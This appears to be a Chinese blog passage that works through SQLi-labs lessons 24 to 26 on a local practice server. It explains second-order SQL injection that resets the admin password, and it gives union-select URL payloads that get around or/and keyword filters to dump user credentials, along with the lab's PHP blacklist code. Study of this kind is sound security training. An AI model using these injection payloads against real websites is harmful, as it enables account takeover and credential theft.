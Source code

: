 可以看出，在login对username,password进行了mysql_real_escape_string处理，这导致我们无法直接在login实行注入。  
看一下注册页面：  

```
$username=  mysql_escape_string($_POST['username']) ;
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);
```
表面上看虽然对username和password进行了处理，但是当插入数据库后是不会出现转义符号的。
![](http://VonLYC.github.io/img/blog10-1.png)
而插入的数据没有转义符号则为我们接下来的注入创造了机会。审计修改密码的语句:  
``` php
$username= $_SESSION["username"];
$curr_pass= mysql_real_escape_string($_POST['current_password']);
$pass= mysql_real_escape_string($_POST['password']);
$re_pass= mysql_real_escape_string($_POST['re_password']);
```
发现没有对username进行过滤,那么接下来的利用思路就很明确了。  
1.我们先创建一个账户名为admin'#的账号并登录，可以看出虽然插入时'会被转义，但是到数据库里面仍然显示我们的账号名称为admin'#而不是admin\'#.
![](http://VonLYC.github.io/img/blog10-2.png)
2.这时当我们修改密码时，语句将变成:
``` sql
UPDATE users SET PASSWORD='$pass' where username='admin'#'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```
3.导致我们最后能够修改了admin的密码。可以看出成功登录。
![](http://VonLYC.github.io/img/blog10-3.png)

# Less-25
题目上来就说or，and被过滤了。可以通过报错信息得出被替换为''
or,and可以用||,&&代替。但是发现information_schema中的'or'也会被过滤。。。。于是可以用infoorrmation_schema代替。
```
http://127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,database(),3--+
127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()),3--+
http://127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,database(),3--+
127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,(select group_concat(username,0x3a,passwoorrd,0x3c2f62723e) from security.users),3--+
```
注意:传参&&时要先进行urlencode变成%26%26。或者使用aandnd绕过。（并且这里有个坑）就是password也会被过滤,变成passwd,所以要用passwoorrd绕过。

# Less-25a
这道题和Less-25基本一样，只是由字符型注入改成数字型注入，也就是不需要闭合而已。注入方式参考Less-25即可。

# Less-26
看源代码：  
``` php
function blacklist($id) {
	$id= preg_replace('/or/i',"", $id); //strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id); //Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id); //strip out /*
	$id= preg_replace('/[--]/',"", $id); //Strip out --
	$id= preg_replace('/[#]/',"", $id);	//Strip out #
	$id= preg_replace('/[\s]/',"", $id); //Strip out spaces
   	//\s匹配任何空白字符，包括空格、制表符、换页符等等
	$id= preg_replace('/[\/\\\\]/',"", $id); //Strip out slashes
	return $id;
}
```
可以看出过滤了：
```
or and /* -- # 空格  \ /
```